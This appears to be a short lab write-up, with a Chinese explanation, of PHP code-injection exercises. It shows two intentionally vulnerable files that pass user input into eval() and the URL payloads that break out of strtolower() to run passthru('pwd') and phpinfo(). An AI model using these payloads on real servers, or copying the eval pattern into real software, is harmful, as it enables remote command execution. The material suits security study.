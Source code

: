 test12.php
```php
<?php
$code = $_GET['code'];
eval("\$res = strtolower('$code');");
?>
```

`http://10.101.177.100:9999/test12.php?code=%27);passthru(%27pwd%27);//`

![](assets/markdown-img-paste-20180416171757741.png)

由于`strtolower`函数里面有单引号和括号所以要闭合掉，后面的可以闭合也可以直接注释`//`

test13.php
```php
<?php
$code = $_GET['code'];
eval("\$res = strtolower(\"$code\");");
?>
```

`http://10.101.177.100:9999/test12.php?code=");phpinfo();//`

![](assets/markdown-img-paste-20180416172500177.png)
